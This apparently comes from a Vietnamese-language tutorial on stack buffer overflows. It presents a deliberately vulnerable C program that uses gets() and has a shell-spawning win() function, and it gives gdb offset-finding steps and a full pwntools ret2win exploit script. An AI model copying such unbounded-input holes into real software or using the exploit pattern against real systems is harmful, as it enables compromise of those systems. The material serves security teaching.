







# Decription

BOF (Buffer Over Flow) là một lỗi rất phổ biến và nguy hiểm trong lập trình. Nó có thể gây ra mất/ghì đè dữ liệu nhạy cảm thậm chí có thể lấy được toàn quyền hệ thống.

Khi một biến được khai báo với 1 số lượng nhất định nhưng đầu vào lại không kiểm soát số lượng nhập. Lúc này bof sẽ gây ra tràn dung lượng của biến đó và gây phá vỡ stack, tràn sang cả vùng nhớ lân cận.

Nếu không có những biện pháp an toàn thì hacker có thể chiếm được hệ thống và lấy được những thông tin nhạy cảm.

# Code có Bug

Tôi sẽ viết 1 chương trình C đơn giản làm rõ về bof

```c
#include<stdio.h>
#include <stdlib.h>

char *gets(char *);
void win() {
    system("/bin/sh");
}

int main(){
    char buf[128];
    puts("welcome to bof ez !!!");
    puts("Can you get shell");
    gets(buf);
    return 0;
}
```



# DEBUG



Hãy luôn kiểm tra checksec đầu tiên.

No canary tức là được bof mà không cần sợ bị chặn.

Những bài có bof hãy đặt b* ngay tại hàm gây lỗi và tại hàm ret.

buf được khai báo với 128 bytes nhưng gets lại không giới hạn đầu vào nên ta cần tìm offset đến ret.

Ret là câu lệnh nhảy về hàm mẹ. Do đó nếu ta kiểm soát được ret thì sẽ kiểm soát được cả chương trình.



Tại gets tạo pattern 200 ( hoặc lớn hơn) sau đó nhập vào.



Tại ret báo sigsegv. Là do ta ghì đè qua cả ret địa chỉ không hợp lệ nên ret không nhảy vào đó được. Hãy tính offset bằng pattern.



Chúng ta chỉ cần 136 bytes là overflow được ret.

Tiếp theo là tìm địa chỉ win để ghì đè vào ret.



Vậy payload = b'a'*136 + p64(win_addres)





Tổng kết lại là buf có 128 bytes nhưng ta có thể nhập đến tận 136+8 bytes nữa làm ghì đè ret và kiểm soát nó.
# Full Script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b* 0x0000000000401194
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

payload = b'a'*136
payload += p64(exe.sym.win+1)

sl(payload)
p.interactive()
```


